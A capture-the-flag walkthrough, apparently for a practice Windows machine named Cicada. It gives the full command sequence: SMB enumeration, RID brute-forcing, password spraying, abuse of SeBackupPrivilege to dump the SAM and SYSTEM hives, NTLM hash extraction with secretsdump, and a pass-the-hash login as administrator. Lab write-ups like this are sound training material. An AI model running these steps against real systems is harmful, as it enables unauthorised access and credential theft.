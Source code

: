 <img src="Imgs/image1.png" alt="error loading image"> 

## Cicada 

**Step1:**

Ping to check everything is ok 

`Command: ping <ip address>`

<img src="Imgs/image2.jpg" alt="error loading image">

Now we run an Nmap command to find an open ports 

`Commad: nmap 10.10.11.35`

<img src="Imgs/image3.jpg" alt="error loading image"> 

Here we can see number of ports are open 

Let try a service version scan to check running service 

`Command: nmap -sV 10.10.11.35`

<img src="Imgs/image4.jpg" alt="error loading image"> 

Here we can see different port with the service running 

Let try with smb enumeration 

First check with nmap scripting engine 

`Command: nmap -p 445 10.10.11.35 --script=smb-enum-services`

<img src="Imgs/image5.jpg" alt="error loading image"> 

Here we are not able to find a successful result 

Now we check if we are are to check smb shares 

`Command: smbclient -L //10.10.11.35/ -N`

<img src="Imgs/image6.jpg" alt="error loading image"> 

Yes we can see different type of shares 

I have try to log into share and done but not able to run a command 

`Command: smbclient //10.10.11.35/DEV -N`

<img src="Imgs/image7.jpg" alt="error loading image"> 

In HR Share I found a useful Notice from HR 

`Command: smbclient //10.10.11.35/HR -N `

<img src="Imgs/image8.jpg" alt="error loading image"> 

After opening the test file I found a default password but no user. 

Cat file

<img src="Imgs/image9.jpg" alt="error loading image"> 


Now we bruteforce rid to find different user account. Using username guest and password 
empty. 

`Command: crackmapexec smb  10.10.11.35  -u "guest" -p '' --rid-brute `

<img src="Imgs/image10.jpg" alt="error loading image"> 

And we have found different user account. 

Now we create a username.txt of the enumerated user and set password to default password 
found from the lab. 

Using Metasploit module smb_login 

```msfconsole
Use auxiliary/scanner/smb/smb_login 
set USER_FILE /home/kali/username.txt 
set SMBPASS <password here> 
run
```

<img src="Imgs/image11.jpg" alt="error loading image"> 

<img src="Imgs/image12.jpg" alt="error loading image"> 

From the result we found a username for the default password. 

Using this username and password I try to open different shares but still not found any thing. 
So i decide to further enumerate users with this username and password but found nothing  

```
Command: crackmapexec smb  10.10.11.35  -u "michael.wrightson" -p 
'<password here>' --rid-brute 
```

<img src="Imgs/image13.jpg" alt="error loading image"> 

So I decide to use netexec to brute force rid and now I found a password for user. 

```
Command  netexec smb 10.10.11.35 -u michael.wrightson -p  '<password here>' --users --rid-brute 
```

<img src="Imgs/image14.jpg" alt="error loading image"> 

Now use username and password to access the share 

```
Command: smbclient \\\\10.10.11.35\\DEV -U david.orelious 
Password: <password here> 
```

<img src="Imgs/image15.jpg" alt="error loading image"> 

In DEV share I found a script on opening the file I found username for and a password. 

`Command: cat Backuo_Script.ps1 `

<img src="Imgs/image16.jpg" alt="error loading image"> 

Using this username and password we access share C$ and here I found a user flag. 

`Command: smbclient \\\\10.10.11.35\\C$ -U emily.oscars `

`Password: <password here>`

<img src="Imgs/image17.jpg" alt="error loading image"> 

Under \Users\emily.oscars.CICADA\Desktop\

<img src="Imgs/image18.jpg" alt="error loading image"> 

User Flag

<img src="Imgs/image19.jpg" alt="error loading image"> 

Now we have to elevate priviledge on window sytem. For thi we use window remote 
management tool  

`Command: evil-winrm -i 10.10.11.35 -u emily.oscars -p '<password here>' `

It will open a powershell session on a remote machine

<img src="Imgs/image20.jpg" alt="error loading image"> 

Now we check our current privilege 

`Command:  whoami /priv`

<img src="Imgs/image21.jpg" alt="error loading image"> 

Now I found a Brilliant writeup to elevate priviledge using 
[SeBackupPrivilege](https://starlox.medium.com/windows-privesc-with-sebackupprivilege-enable-b9e949219caf) 

let check with user account detail 

command: net user emily.oscars

<img src="Imgs/image22.jpg" alt="error loading image"> 

Now we use this github repositiory to install DLL files 

`https://github.com/giuliano108/SeBackupPrivilege `

<img src="Imgs/image23.jpg" alt="error loading image"> 

Once file are downloaded on our sytem we will upload it in a temp folder. If no then we make 
a temp folder 

Command: upload /file/to/path 

<img src="Imgs/image24.jpg" alt="error loading image"> 

After both dll files are uploaded. We load a powershell module to abuse SeBackupPrivilege. 

```
Command: 
Import-Module .\SeBackupPrivilegeCmdLets.dll 
Import-Module .\SeBackupPrivilegeUtils.dll
```

<img src="Imgs/image25.jpg" alt="error loading image"> 

Now we move the sam and system files from HKLM registry hiver to 

C:\Users\emily.oscars\temp\sam 

```
Command: 
reg save hklm\sam C:\Users\emily.oscars\temp\sam 
reg save hklm\system C:\Users\emily.oscars\temp\system
```

<img src="Imgs/image26.jpg" alt="error loading image">  

Finally download these files on our system 

```
Command:  
download sam 
download system 
```

<img src="Imgs/image27.jpg" alt="error loading image"> 

Usinf secretdump.py we extract NTLM hashes 

`Command: python3 secretsdump.py -sam sam -system system LOCAL `

<img src="Imgs/image28.jpg" alt="error loading image"> 

Again go to remote poweshell using user admin and a hash 
```
Command: sudo evil-winrm  -i 10.10.11.35 -u administrator -H <Admin hash> 
```
<img src="Imgs/image29.jpg" alt="error loading image"> 

And under Desktop we found a root.txt file. 